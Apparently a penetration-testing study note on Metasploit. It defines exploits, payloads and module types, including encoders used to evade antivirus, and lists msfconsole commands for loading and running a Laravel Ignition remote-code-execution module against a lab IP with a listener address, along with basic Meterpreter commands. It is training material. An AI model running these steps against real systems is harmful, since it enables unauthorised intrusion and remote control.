 **Exploit** A piece of code of code that uses a vulnerability present on the target system
**Vulnerability** A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system. 
**Payload** An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access tot the target system, read confidential information) we need to use a payload. Payloads are the code that will run on the target system.

**Auxillary** Any supporting module, such as scanners, crawlers and fuzzers, can be found here.
**Encoders** Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
- signature-based anti-virus and security solutions have a DB of known threats. They detect threats by comparing suspicious files to this database and raise an alert if there is a match. Thus encoders can have a limited success rate as antivirus solutions can perform additional checks
**Evasion** While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. 
**Exploits** organized by target systems
**NOPS** No Operation, do nothing literally
- They are represented in the Intel x86 CPU family they are represented with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.
**Payloads** code that will run on the target system
- *Singles* Self-contained payloads (add user, launch notepad.exe, etc) that do not need to download and additional component to run
- *Stagers* Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. "Staged Payloads" will first upload a stager on the target then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once
- *Stages*  Download by the stager. This will allow you to use larger sized payloads.
- *Post* Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.


start metasploit
```bash
~$ msfconsole
```

common commands
```bash
# view sessions 
~$ sessions  

# upgrade the last opened session to Meterpreter 
~$ sessions -u -1  

# interact with a session 
~$ sessions -i session_id  

# Background the currently interactive session, and go back to the Metasploit prompt 
~$ background

# To search for a module, use the ‘search’ command:
~$msf6 > search laravel

# Load a module with the ‘use’ command
~$ msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
~$ msf6 exploit(multi/php/ignition_laravel_debug_rce) > inf0

# View the available options to set
~$ show options

# Set the target host and logging
~$ set rhost 10.10.163.96
~$ set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
~$ set lhost LISTEN_IP

# show options again
~$ show options

# Run or check the module
~$ check
~$ run

        
```

Meterpreter
common commands
```bash
# Get information about the remote system, such as OS
~$ sysinfo
# Upload a file or directory 
~$ upload local_file.txt  
# Display interfaces 
~$ ipconfig  
# Resolve a set of host names on the target to IP addresses - useful for pivoting resolve
~$ remote_service1 remote_service2
```





